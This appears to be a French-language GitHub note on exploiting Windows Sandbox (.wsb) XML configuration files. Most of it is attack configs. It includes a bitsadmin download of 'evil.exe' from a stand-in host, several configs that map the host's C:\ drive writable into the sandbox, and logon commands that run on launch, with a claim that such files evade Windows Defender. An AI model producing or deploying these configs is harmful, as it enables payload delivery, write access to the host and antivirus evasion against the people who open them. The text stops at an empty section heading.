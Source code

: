 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 

```xml

```











### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB ne se font pas détecter par Windows Defender.

Commande possible d'injecter:
```xml
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```


```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```













```
• Inheriting Write Access permission to Host Machine (Sand-Box-Escape)

# Mapping C:\ root to Sandbox Environment with write access (RW.wsb)
<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
</Configuration>
NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine



 
• Execution upon Sand-Box Environment Creation 

<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
 <LogonCommand>
 <Command>C:\Windows\system32\cmd.exe</Command>
 </LogonCommand>
</Configuration>

NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine 


```

### étude approfondi de Windows Sandbox:

